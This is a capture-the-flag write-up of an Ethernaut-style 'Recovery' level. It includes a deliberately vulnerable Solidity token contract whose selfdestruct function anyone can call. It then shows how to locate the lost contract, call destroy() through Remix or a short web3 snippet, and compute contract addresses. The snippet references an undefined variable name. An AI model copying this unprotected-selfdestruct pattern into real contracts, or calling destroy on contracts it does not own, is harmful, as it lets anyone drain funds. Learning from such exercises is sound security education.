

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value.mul(10);
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender].sub(_amount);
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

<hr />

# Hack

The easiest way to solve this level is to search the contract address on etherscan website and under the Internal Txns search for the latest contract created and here we find the lost contract address. And we can copy the SimpleToken contract to create a SimpleToken.sol and under the deploy and run transactions, interact with the lost contract by filling up the contract address at At Address. Then simply click the destroy button with your wallet address.

Another way to destroy contract to return all the ether is using web3.

```
functionJSONInterface={
    name: 'destroy',
    type: 'function',
    inputs: [{
        type: 'address',
        name: '_to'
    }]
}

params = [player]
lostTokenAddress=<Address Here>
data = web3.eth.abi.encodeFunctionCall(jsonInterface, params)
await web3.eth.sendTransaction({from: player, to: lostTokenAddress, data: data})
```

Contract addresses are deterministic and are calculated by keccack256(address, nonce) where the address is the address of the contract (or ethereum address that created the transaction) and nonce is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).

address = sha3(rlp_encode(creator_account, creator_account_nonce))[12:]

This is how the contract address of the upcoming or already created contract can be determined.